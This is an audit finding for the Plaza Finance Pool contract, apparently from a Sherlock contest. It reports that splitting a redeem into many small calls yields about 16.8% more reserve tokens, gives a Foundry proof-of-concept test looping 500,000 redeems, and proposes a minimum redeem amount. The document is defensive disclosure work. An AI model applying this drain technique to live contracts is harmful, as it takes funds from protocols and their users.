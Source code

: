 Jovial Turquoise Scallop

High

# Users can redeem more `ReserveToken` by splitting a single large redeem into multiple smaller redeems.

### Summary

The redeem function in the Pool contract allows users to exchange bondToken or leverageToken for reserve tokens. However, the computation of redeemable reserve tokens is non-linear, resulting in a higher aggregate amount when redeem is called in smaller increments..

### Root Cause

The reserve token pool balance used in `getRedeemAmount` is reduced by accrued fees (`poolReserves - (fee * elapsed_time)`), which introduces a dependency on `lastFeeClaimTime`. [Pool.sol#L433](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L433)
Splitting a large redeem into smaller chunks allows users to manipulate the slippage calculations repeatedly. Each redeem uses a reduced reserve pool value, causing disproportionately higher token redeeming over multiple iterations than a single large redeem.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Users can redeem more `ReserveToken` by splitting a single large redeem into multiple smaller redeems.


### PoC

```solidity
function testCodeRedeem() public {
    vm.startPrank(governance);

    // Create a pool with 2% fee
    params.fee = 20000; // 2% fee (1000000 precision)

    // Mint and approve reserve tokens
    Token rToken = Token(params.reserveToken);
    rToken.mint(governance, 1000 ether);
    rToken.approve(address(poolFactory), 1000 ether);

    Pool pool = Pool(poolFactory.createPool(params, 1000 ether, 30000 ether, 10000 ether, "", "", "", "", false));

    rToken.approve(address(pool), 1000 ether);

    // Fast forward one year
    vm.warp(block.timestamp + 30 days);

    vm.stopPrank();
    vm.startPrank(user);
    rToken.mint(user, 100 ether);
    rToken.approve(address(pool), 100 ether);

    pool.create(Pool.TokenType.LEVERAGE, 100 ether, 0);

    uint256 amount = 0;

    // amount = pool.redeem(Pool.TokenType.LEVERAGE, 5000 ether, 0);
    // assertEq(amount, 73172623333333333333);

    for(uint256 i = 0; i < 500000; i ++)
      amount += pool.redeem(Pool.TokenType.LEVERAGE, 0.01 ether, 0);

    assertEq(amount, 85490497830099833266);

    // Reset reserve state
    rToken.burn(governance, rToken.balanceOf(governance));
    rToken.burn(address(pool), rToken.balanceOf(address(pool)));
  }
```
#### Results
- Redeeming with a single call yields `73172623333333333333` in reserve tokens.
- Redeeming `0.01 ether` for 500000 iterations yields `85490497830099833266`, 
- Excess tokens redeemed: `12,317,874,496,766,499,933` = `16.8% of 73172623333333333333`

### Mitigation

Set a minimum redeem amount to prevent manipulation of small redeems.